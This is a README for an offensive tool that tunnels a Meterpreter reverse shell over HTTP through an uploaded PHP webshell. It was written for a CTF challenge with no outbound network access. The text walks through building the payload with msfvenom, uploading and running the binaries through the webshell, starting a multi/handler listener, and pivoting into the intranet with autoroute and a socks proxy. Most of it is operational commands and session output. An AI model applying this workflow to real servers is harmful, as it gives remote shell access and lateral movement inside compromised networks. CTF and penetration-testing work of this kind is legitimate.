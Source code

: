 # TCP-Forwarder

proof-of-concept tcp forwarder for meterpreter, used in ctf challenges where network access is limited.  

idea from : 强网杯2025 Web 日志系统
- The challenge is a php webserver with a JBoss running in intranet.
- Only the php server is accessible from outside, and the challenge instance cannot access the internet.
- The php webserver can upload webshells and have no disable_functions.
- You want a meterpreter shell on the php server, so that you can pivot to the intranet and exploit the JBoss. (You can solve the challenge otherwise anyways, eg. puting your exp on the php server and run it there.)


## Overview
proof-of-concept tcp forwarder for meterpreter, used in ctf challenges where
- The target service only exposed one http port serving php (for java? you can just use suo5 with bind_tcp. php suo5 sux)
- The target service cannot access the internet (no reverse_tcp meterpreter)
- You can upload php and execute files on the target (php webshell with no disable_functions)
- A webshell isn't enough, you really want a meterpreter shell on the target, so that you can pivot and post-exploitation the intranet.

## Existing solution

[reGeorg](https://github.com/sensepost/reGeorg) and [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) -- depreciated, completely broken on this php challenge, not working.

[suo5](https://github.com/zema1/suo5) -- with bind_tcp meterpreter should work in theory, but:
- the meterpreter dies after some time because of php max_execution_time (forced in php.ini, cannot modify?)
- with `proxychains4 msfconsole -n`, msfconsole tries to connect to 127.0.0.1:3xxxx sometimes and fail, causing autoroute to not work.
- with the `php -S` server and default nginx server, there are only 1 or 5 workers, suo5 will hang the php server when multiple connections are made. [ref](https://github.com/zema1/suo5/blob/main/assets/php/README.md)

## Explaination
The `tcp-forwarder` golang binary does this:
- listen on tcp 127.0.0.1:13337 and wait for a meterpreter to connect to it (have a 10MB buffer for receive)
- listen on tcp 127.0.0.1:13338 and send everything from the meterpreter connection to it
- listen on tcp 127.0.0.1:13339 and send everything from it to the meterpreter connection
  
The `tcp-client.py` python script does this:
- connect to the msfconsole at 127.0.0.1:4444
- send everything from the msfconsole connection to `target/tcp-middleware.php`
- receive everything from `target/tcp-middleware.php` and send it to the msfconsole connection

The `tcp-middleware.php` file does this:
- accepts post parameter `data` and `mode`
- if mode is `r`, read from tcp 127.0.0.1:13338 and return the data
- if mode is `w`, write the base64 decoded data to tcp 127.0.0.1:13339

And, the meterpreter does this:
- connect to tcp 127.0.0.1:13337
- send and receive data using tcp, to/from the tcp-forwarder
- which sends and receives data using php, to/from the tcp-client.py
- which sends and receives data using tcp, to/from the msfconsole
- which gives you a meterpreter shell on your attacking machine

## Usage

### compiling the forwarder

```bash
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -o tcp-forwarder tcp-forwarder.go
```

### make a meterpreter client connecting to 127.0.0.1:13337

```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=13337 -f elf -o meterpreter.elf
```

### uploading the forwarder, middleware and meterpreter to the target
... using your php webshell
```bash
# you should now have these on the target
./tcp-forwarder
./tcp-middleware.php
./meterpreter.elf
```

### starting the forwarder and meterpreter on the target
using something like system("...") in your php webshell
```bash
chmod +x tcp-forwarder
./tcp-forwarder & :
chmod +x meterpreter.elf
./meterpreter.elf & :
```

### starting the listener on your attacking machine
```bash
msfconsole -n
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
exploit
```
### start the local port forwarder
```bash
# modify the REMOTE inside tcp-client.py first
python3 tcp-client.py
```

### you should now have a meterpreter shell on your attacking machine!
```
[*] Meterpreter session 10 opened (127.0.0.1:4444 -> 127.0.0.1:57846) at 2025-10-21 17:12:42 +0800

```

### check that everything works.
```
run autoroute -s 127.0.0.1/16
bg
use socks_proxy
run -j
```
```bash
http_proxy=socks5://127.0.0.1:1080 curl -v 127.0.0.1:8080
```

## Problems
- reading large files will hang the meterpreter session. (shell `cat /dev/urandom | base64 -w0`) ...which seems like a meterpreter problem.
- php should stream data from tcp to http client instead of reading it all and use base64.(may make php oom)
- the tcp-forwarder and even meterpreter can be rewritten in php, and run via php -r, so no need to upload binaries.